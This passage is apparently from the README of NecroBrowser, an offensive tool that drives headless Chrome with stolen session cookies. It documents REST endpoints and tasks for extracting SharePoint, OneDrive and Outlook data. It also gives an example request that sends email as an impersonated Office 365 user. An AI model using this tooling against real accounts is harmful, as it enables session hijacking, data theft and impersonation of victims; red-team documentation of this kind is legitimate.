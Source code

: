 This is needed since we Node mock os.Arch() to be arm64, so we "bypass" the platform checks
and Puppeteer cann magically work in FreeBSD too. Eventually @antisnatchor will create an official
Puppeteer port and add official FreeBSD support.

## RESTful API
#### GET /
Returns the status of the NecroBrowser cluster, showing generic information about 
queue size and processed tasks.
```
{ 
  "startedAt":"2020-11-27 16:38:47",
  "workers":"0",  
  "queued":"0",
  "progress":"0 / 0 (100.00%)",
  "errors":"0 (0.00%)",
  "tasks":[]
}
```
#### GET /tasks
Returns the available Task types and their exposed methods.

```
{
"github":[
   "PlantAndDump"
 ],
"gsuite":[
   "ScreenshotApps"
 ],
"office365":[
   "ScreenshotApps",
   "SharepointExtrude",
   "OneDriveExtrude",
   "OutlookWriteEmail",
   "OutlookExtrude"
  ]
}
```

#### POST /instrument

Queue the specified instrumentation task spawning a dedicated Chrome headless instance.

Lets say we want to trigger the office365.OutlookWriteEmail task. We would use a POST
body like the following:

```
 { 
"name": "NecroTest",
"task": {
  "type": "office365",
  "name": "OutlookWriteEmail",
  "params": {
     "fixSession": 'https://outlook.office.com/mail/inbox',
     "writeEmail": {
        "to": "WikiInternal@ogre.onmicrosoft.com",
        "subject": "All your sessions are belong to us",
        "data": "NecroBrowser is impersonating this user.\nBye",
        "attachment": "./testing/attachment.png"
      }
  }
},
"cookies": [
 {}...
],
```